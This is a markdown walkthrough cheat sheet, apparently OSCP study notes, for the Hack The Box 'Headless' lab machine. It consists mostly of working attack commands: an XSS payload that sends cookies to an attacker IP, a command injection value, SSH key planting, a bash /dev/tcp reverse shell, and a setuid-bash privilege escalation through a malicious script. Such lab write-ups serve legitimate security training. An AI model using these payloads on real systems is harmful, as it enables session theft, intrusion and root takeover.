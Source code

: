 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.8
nmap -p 22,5000 -sCV 10.10.11.8
```

## 📂 [Directory Brute Force](HTTP.md)

```bash
feroxbuster -u http://10.10.11.8:5000
```

## 🔎 Filter Testing / Single Character Fuzzing

```bash
ffuf -u http://10.10.11.8:5000/support \
-d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ' \
-w /opt/SecLists/Fuzzing/alphanum-case-extra.txt \
-H 'Content-Type: application/x-www-form-urlencoded' \
-mr 'Your IP address has been flagged'
```

## 🧪 XSS Payload (Cookie Stealer)

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

## 🌐 Host Web Server to Catch Cookie

```bash
python -m http.server 80
```

## 🍪 Manually Set Cookie (in Firefox Dev Tools)

```text
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 💥 Command Injection Test (Burp Repeater)

```text
date=2023-09-15; id
```

## 🔐 Generate [SSH](SSH) Key

```bash
ssh-keygen -t ed25519 -f key
```

## 📥 Upload Public Key (in initdb.sh or through command injection)

```bash
echo "public_key_content" > ~/.ssh/authorized_keys
```

## 🔑 SSH into Box

```bash
ssh -i key dvir@10.10.11.8
```

## 📤 Reverse Shell Payload (Base Bash Reverse Shell)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

(Encode `&` as `%26` for POST requests)

## 📞 Listen for Shell

```bash
nc -lnvp 443
```

## 🐚 Upgrade TTY Shell

```bash
script /dev/null -c bash
# Then:
[CTRL+Z]
stty raw -echo; fg
reset
# Type: screen
```

## 🔎 Check Sudo Permissions

```bash
sudo -l
```

## 📜 Priv-Esc Exploit: Create Malicious `initdb.sh`

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' > initdb.sh
chmod +x initdb.sh
```

## ⚙️ Execute `syscheck`

```bash
sudo syscheck
```

## ⬆️ Root Shell

```bash
/tmp/0xdf -p
```

## 🧼 Clean Up and Get Root Flag

```bash
rm /tmp/0xdf
cat /root/root.txt
```
